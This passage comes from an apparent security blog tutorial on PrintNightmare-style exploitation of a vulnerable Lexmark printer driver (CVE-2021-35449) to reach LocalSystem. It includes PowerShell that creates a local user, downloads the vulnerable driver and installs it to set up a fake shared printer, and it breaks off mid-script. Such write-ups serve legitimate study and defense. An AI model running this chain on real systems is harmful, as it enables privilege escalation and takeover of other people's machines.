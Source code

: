 ![Downloading a vulnerable printer driver](/assets/posts/2024-01-28-printnightmare-exploitation/14_download-vulnerable-printer-driver-diagram.png)
_Downloading a vulnerable printer driver_

This particular attack was implemented by [@Junior_Baines](https://twitter.com/Junior_Baines) in a turnkey tool called [Concealed Position](https://github.com/jacob-baines/concealed_position). The project consists of a single executable that embeds both a server and a client, and a collection of four vulnerable printer drivers.

There are at least two main issues that make it hardly usable nowadays though. First and foremost, it is flagged as malicious, so it cannot be easily run without modifying the code, or at least packing the executable. Second, it relies on anonymous access to the `print$` share, which is likely to be blocked because of [restrictions enforced in some recent versions of Windows](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/guest-access-in-smb2-is-disabled-by-default).

To solve these issues, I split the exploit chain into three steps that I reimplemented in PowerShell for easier reproducibility. Step 1 (in red) and step 2 (in blue) are already illustrated on the previous diagram.

1. __ATTACKER__ (as an administrator): create a fake shared printer using a vulnerable printer driver.
2. __TARGET__ (as a regular user): add the remote shared printer to trigger the installation of its driver locally.
2. __TARGET__ (as a regular user): exploit the printer driver to gain `LocalSystem` privileges.

Lastly, as I mentioned previously, [Concealed Position](https://github.com/jacob-baines/concealed_position) offers exploits for four vulnerable drivers. Though, for the sake of the demonstration, I selected only one: "ACIDDAMAGE". It exploits a basic file permission issue in a Lexmark driver ([CVE-2021-35449](https://nvd.nist.gov/vuln/detail/CVE-2021-35449)), as we will see further down.

### 1. Creating a fake shared printer (Attacker)

We first need to download and install a known vulnerable printer driver, such as the Lexmark one, on our machine. Then, we will use the PowerShell cmdlets `Add-PrinterDriver` and `Add-Printer` to create the fake shared printer. All the necessary commands are shown below.

```powershell
$DriverUrl = "https://github.com/jacob-baines/concealed_position/raw/main/cab_files/ACIDDAMAGE/LMUD1o40.cab"
$Username = "user"
$Password = "P@ssw0rd"
$SecurePassword = ConvertTo-SecureString -String $Password -AsPlainText -Force
New-LocalUser -Name $Username -Password $SecurePassword | Out-Null
# Download the CAB file containing the vulnerable driver.
Invoke-WebRequest -Uri $DriverUrl -OutFile ".\LMUD1o40.cab"
# Create the directory that will contain the extracted files.
New-Item -Path ".\ACIDDAMAGE\" -ItemType Directory | Out-Null
# Expand the CAB file in the output directory.
expand.exe ".\LMUD1o40.cab" -F:* ".\ACIDDAMAGE" | Out-Null
# Install the printer driver.
pnputil.exe /add-driver ".\ACIDDAMAGE\LMUD1o40.inf" /install
# Add it as a printer driver.
Add-PrinterDriver -Name "Lexmark Universal v2"
# Create a shared printer that uses this printer driver.
```